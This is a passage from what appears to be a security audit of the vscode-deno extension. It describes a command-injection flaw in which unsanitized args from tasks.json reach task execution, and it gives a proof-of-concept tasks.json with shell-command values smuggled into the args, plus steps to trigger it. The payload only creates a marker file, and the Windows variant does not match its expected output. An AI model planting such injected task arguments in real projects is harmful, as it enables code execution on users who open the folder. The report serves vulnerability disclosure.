         return new vscode.Task(
          definition,
          target,
          name,
          TASK_SOURCE,
          exec,
          problemMatchers,
        );
      }
      ```
    - `args` from `DenoTaskDefinition`, which is populated from `tasks.json`, is used without sanitization, allowing for command injection if malicious arguments are provided.

  - Security test case:
    1. Create a new folder named `vscode-deno-tasks-rce-test`.
    2. Inside `vscode-deno-tasks-rce-test`, create a subfolder named `.vscode`.
    3. Inside `.vscode`, create a file named `tasks.json` with the following content:
       ```json
       {
         "version": "2.0.0",
         "tasks": [
           {
             "type": "deno",
             "command": "run",
             "args": [
               "`; touch /tmp/vscode-deno-tasks-pwned; #`",
               "mod.ts"
             ],
             "problemMatcher": [
               "$deno"
             ],
             "label": "deno: run with injection"
           }
         ]
       }
       ```
       (For Windows, use: `"args": ["\"; type C:\\windows\\system32\\calc.exe & echo \", "mod.ts"]` )
    4. Create an empty file `mod.ts` in `vscode-deno-tasks-rce-test`.
    5. Open the `vscode-deno-tasks-rce-test` folder in VSCode.
    6. Open the Command Palette (Ctrl+Shift+P) and run "Tasks: Run Task".
    7. Select the task "deno: run with injection".
    8. Observe if the file `/tmp/vscode-deno-tasks-pwned` (or `%TEMP%\\vscode-deno-pwned.txt` on Windows) is created after running the task.
    9. If the file is created, the command injection vulnerability in tasks is confirmed.
